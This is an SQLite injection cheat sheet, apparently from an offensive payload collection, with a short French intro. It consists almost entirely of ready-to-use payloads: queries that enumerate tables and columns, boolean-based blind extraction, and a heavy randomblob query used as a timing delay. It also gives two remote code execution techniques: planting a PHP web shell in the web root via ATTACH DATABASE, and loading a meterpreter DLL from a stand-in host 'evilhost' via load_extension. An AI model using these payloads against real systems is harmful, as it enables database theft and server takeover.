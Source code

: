 # SQLite Injection

#Petit guide

#Version select sqlite_version();
#Comments /* */ ou – – jusque eol
#Show tables select name from sqlite_master where type=’table’;
#Describe table select sql FROM sqlite_master WHERE tbl_name = ‘mytable‘ AND type = ‘table’;
#Select Nth Row  select * from tbl1 limit 0,1;  puis  select * from tbl1 limit 1,1; etc…
#Sleep n’existe pas mais en sqlite3.3 et > je fait presque 6 sec avec une mamaille du genre select substr(upper(hex(randomblob(99999999))),0,1);
#Generate quote (sqlite3 only)  select substr(quote(hex(0)),1,1);
#Generate dbl quote (sqlite3 only) select cast(X’22’ as text);

Cheat Sheet

 Comments	 							--
 IF Statements	 							CASE
 Concatenation	 							||
 Substring	 							substr(x,y,z)
 Length	 								length(stuff)
 Generate single quote	 						select substr(quote(hex(0)),1,1);
 Generate double quote	 						select cast(X'22' as text);
 Generate double quote (method 2)	 				.. VALUES (“<?xml version=“||””””||1||
 Space-saving double quote generation	 				select replace("<?xml version=$1.0$>","$",(select cast(X'22' as text)));



## Integer/String based - Extract table name
```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```
Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name
```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

For a clean output
```
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables
```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name
```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info
```
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Remote Command Execution using SQLite command - Attach Database
```
ATTACH DATABASE ‘/var/www/lol.php’ AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES (‘<?system($_GET[‘cmd’]); ?>’);--
```

## Remote Command Execution using SQLite command - Load_extension
```
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
Note: By default this component is disabled

## Thanks to
[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)
